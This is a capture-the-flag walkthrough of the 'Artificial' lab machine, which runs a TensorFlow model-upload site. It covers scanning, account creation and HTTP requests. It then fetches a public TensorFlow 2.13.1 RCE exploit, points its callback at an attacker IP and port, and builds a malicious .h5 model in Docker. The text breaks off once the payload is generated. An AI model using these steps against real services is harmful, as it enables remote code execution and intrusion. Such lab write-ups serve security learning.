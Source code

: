 I find a webserver with nmap:
```
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I also find a few paths with gobuster:
```
/dashboard            (Status: 302) [Size: 199] [--> /login]
/logout               (Status: 302) [Size: 189] [--> /]
/login                (Status: 200) [Size: 857]
/register             (Status: 200) [Size: 952]
```

I get more informations with nikto:
```
+ HEAD nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
```

And even more informations with whatweb:
```
Summary   : HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], Matomo, nginx[1.18.0], Script
```

I decide to create a new account:
```
POST /register HTTP/1.1
Host: artificial.htb
Content-Length: 67
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://artificial.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=random4321&email=random4321%40mail.net&password=random4321
```
Then, I log in using the previously created account:
```
POST /login HTTP/1.1
Host: artificial.htb
Content-Length: 47
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://artificial.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=random4321%40mail.net&password=random4321
```

I get a dashboard:
```
GET /dashboard HTTP/1.1
Host: artificial.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyX2lkIjo3LCJ1c2VybmFtZSI6InJhbmRvbTQzMjEifQ.aJZgPw.oEFDyLs3mb8ucwx9O6sCQaq7uY4
Connection: keep-alive
```

Once logged in, I also get a JWT token:
```
{
  "user_id": 7,
  "username": "random4321"
}
```

I decide to look at the dashboard source code:
```
<main>
    <section class="dashboard-section">
        <h2>Your Models</h2>
        <p style="color: black;">Upload, manage, and run your AI models here.</p>
        
        <!-- Warning message for TensorFlow version -->
        <p class="version-warning">Please ensure these <a href="/static/requirements.txt">requirements</a> are installed when building your model, or use our <a href="/static/Dockerfile">Dockerfile</a> to build the needed environment with ease.  </p>

        <!-- Upload form -->
        <form id="upload-form" enctype="multipart/form-data" action="/upload_model" method="POST">
            <input type="file" name="model_file" accept=".h5" class="file-input" required="">
            <button type="submit" class="btn" style="color: white;">Upload Model</button>
        </form>

        <!-- List models -->
        <ul class="model-list">
            
        </ul>
    </section>
</main>
```


I find 2 files, requirements.txt (python dependencies file):
```
tensorflow-cpu==2.13.1
```

And a Dockerfile that download the same package during the build phase:
static/Dockerfile content:
```
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

This looks like it can be used with the example python code I found on home page earlier to generate a h5 model to upload:
```
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

np.random.seed(42)

# Create hourly data for a week
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

# Create a DataFrame
data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

# Build the model
model = keras.Sequential([
    layers.Dense(64, activation='relu', input_shape=(1,)),
    layers.Dense(64, activation='relu'),
    layers.Dense(1)
])

# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

# Save the model
model.save('profits_model.h5')
```

After some digging on the web I find this RCE for Tensorflow 2.13.1: `https://github.com/Splinter0/tensorflow-rce`

I add this to the `Dockerfile` build phase:
```
# Download exploit to generate malicious h5 model with payload
RUN curl -O https://raw.githubusercontent.com/Splinter0/tensorflow-rce/refs/heads/main/exploit.py

# Replace attacker IP and port
RUN sed -i 's/127.0.0.1/10.10.14.9/g' exploit.py && sed -i 's/6666/4444/g' exploit.py

# Generate malicious h5 model with payload
RUN python exploit.py
```

Then, I generate the malicous h5 with payload.
#### generate-payload.sh
```
#!/bin/bash

# Enable and start Docker service
sudo systemctl enable docker.service && sudo systemctl start docker.service

# Build image (and generate payload)
sudo docker build -t generate-h5-payload .

# Run container
sudo docker run generate-h5-payload

# Get container id
CONTAINER_ID=$(sudo docker container ls -aq --filter "ancestor=generate-h5-payload")

# Download payload from container
sudo docker cp $CONTAINER_ID:/code/exploit.h5 ./exploit.h5
```
